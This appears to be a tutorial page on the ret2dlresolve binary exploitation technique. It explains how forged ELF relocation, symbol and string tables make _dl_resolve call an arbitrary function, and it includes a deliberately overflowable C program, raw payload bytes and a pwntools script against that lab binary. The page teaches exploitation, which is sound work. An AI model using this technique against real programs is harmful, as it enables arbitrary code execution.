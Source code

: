 # Introduction

This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it.

To understand the following content, knowledge of [[Dynamic Linking]] with ELF files is necessary.

# Theory

It is possible to use `_dl_resolve` to call any external function by creating a fake relocation table, symbol table, string table, and GOT. `_dl_resolve` performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.

Because of the checks that `_dl_resolve` performs, the `r_info` must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the `.bss` section, which is closer to the real symbol table in the executable. Additionally, `r_info` must end in 0x7.

For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set `st_other` to 0 and `st_name` to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, `r_info` must be populated with `(( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7`, where `RealToFakeSymbolTableOffset` is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in `_dl_resolve`. `r_offset` on the other hand, must contain the distance between our fake global offset table and the ELF header.

The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.

# Exploitation

```cpp
#include <stdio.h>
#include <stdlib.h>

char message[128];

void SendMessage()
{
	char sender[20];
	
	printf("Enter the message: \n");
	fgets(message, 128, stdin);
	
	printf("Enter the sender name: \n");
	fgets(sender, 0x40, stdin);
}

int main()
{
	SendMessage();		
	printf("Message sent!");
	return 0;
	
}
```

Manually performing this exploit can be rather extremely cumbersome. Anyway, the fake tables should be set in the following way:

Relocation argument:
- `reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry)`

 - must be divisible by the size of the relocation entry:
	 - `Elf32_Rel` : 8 bytes
	 - `Elf32_Rela`: 12 bytes
	 - `Elf64_Rel`: 16 bytes
	 - `Elf64_Rela`: 24 bytes

Fake relocation table:
- `r_offset = FakeGOT - ElfHeader`
- `[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7`
	- the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
- `[+0x10] r_addend = 0 (doesn't matter)`

Fake symbol table:
- `[+0x18] st_name = FakeStringTable - RealStringTable`
- `[+0x20] st_info = 0 (doesn't matter)`
- `[+0x21] st_other = 0`

Fake string table:
- `[+0x22] function name = system\x00 (or any other function)`

The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.

For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.

Consequently, the payload for the `message` is
`"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"`

The actual buffer that will be overflowed is the `sender` buffer the payload for it looks like this:
`"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"`
The last bytes are the value of the relocation argument and the ones before are the address of PLT0.

Indeed, running this exploit results in the programme's abortion through the `abort` function (you can check by the exit code).

```python
from pwn import *

program = process("./dl_resolve")

print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")

print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")

program.interactive()
```

![[res/RDLR_manual.png]]

The `abort` procedure takes no arguments which made manual exploitation easier, however, when you want to invoke a function with parameters, such as `system`, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain.
